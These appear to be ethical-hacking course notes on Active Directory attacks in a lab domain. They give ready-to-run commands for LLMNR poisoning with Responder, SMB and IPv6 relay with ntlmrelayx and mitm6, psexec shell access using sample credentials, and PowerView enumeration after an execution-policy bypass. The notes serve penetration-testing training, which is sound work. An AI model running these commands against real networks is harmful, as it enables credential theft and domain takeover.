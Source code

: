 # Practical Ethical Hacking

## Subnetting

[IP Address Guide site](https://www.ipaddressguide.com/)

[Subnetting sheet](https://drive.google.com/file/d/1ETKH31-E7G-7ntEOlWGZcDZWuukmeHFe/view?usp=sharing)

## Active Directory

### Attack

#### [Five way to attack AD](https://medium.com/@adam.toscher/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)

#### LLMNR Poisoning

![](../.gitbook/assets/3%20%281%29%20%281%29%20%281%29.png)

Tool: [Responder](https://github.com/SpiderLabs/Responder) Capture the NTLMv2 hases with Responder on eth0.

```text
responder -I eth0 -rdwv
```

Crack the obtained hash using \#Hashcat or \#john

#### SMB Relay attack

Instead of cracking the hashes gathered from responder, We can repay those hashes to machines and potentially gain access.

Requirements:

* SMB signing must be disabled on the target
* Relayed user credentials must be admin on machine

![](../.gitbook/assets/2-2.png)

Run Responder,

```text
responder -I eth0 -rdwv
```

Tool: [NTLM Relay](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py)

```text
python ntlmrelayx.py -tf targets.txt -smb2support
```

Or

To get Interactive shell

```text
python ntlmrelayx.py -tf targets.txt -smb2support -i
```

Interactive mode will start the Interactive SMB on specific port. As soon as it start Interactive smb set the netcat on that port.

```text
nc 127.0.0.1 1100
```

Checkout more -e, -c etc options of ntlmrelayx

1. Gaining Shell Access

   Prerequisite to get shell, Need smb username/password and user should be local admin

There are multiple ways we have to try, some might not work,

* Use metasploit with windows/smb/psexec
* Use psexec.py _Noicey_

  ```text
  psexec.py marvel.local/fcastel:password1@192.168.0.141
  ```

* psexec\_psh \(Metasploit\)
* smbexec.py
* wmiexec.py
* IPv6 Attack If Ipv6 enabled this attack creates DNS machine for IPv6 addresses. We can use victim machine to login to DC, when victim restart the machine. Once we get victim authenticated we can relay those credentials to LDAP.

#### [mitm6](https://github.com/fox-it/mitm6)

```text
mitm6 -d marvel.local
```

also need to set relay attack

```text
ntlmrelayx.py -6 -t ldaps://192.168.57.140 -wh fakewpad.marvel.local -l lootme
```

Resources: 

* [https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)
* [https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)

### **Attacking AD Strategies** 

![](../.gitbook/assets/1.png)

### Post Compromise Enumeration

####  ****[Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

To run PowerView on Victim machine,

```text
powershell -ep bypass

. .\PowerView.ps1
```

_Nothing will showup but it will load the PowerView_

Common Commands:

* Get-NetDomainController 
* Get-DomainPolicy
* \(Get-DomainPolicy\)."system access"
* Get-NetUser
* Get-NetUser \| select cn
* Get-UserProperty
* Get-UserProperty -Properties pwd
* Get-UserProperty -Properties logoncount
* Get-NetComputer
* Get-NetComputer -FullData
* Get-NetGroupMember -GroupName "Domain Admin"
* Invoke-ShareFinder
* Get-NetGPO
* Get-NetGPO \| select displayname, whenchanged
* [Powerview Tricks](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)

#### Bloodhound

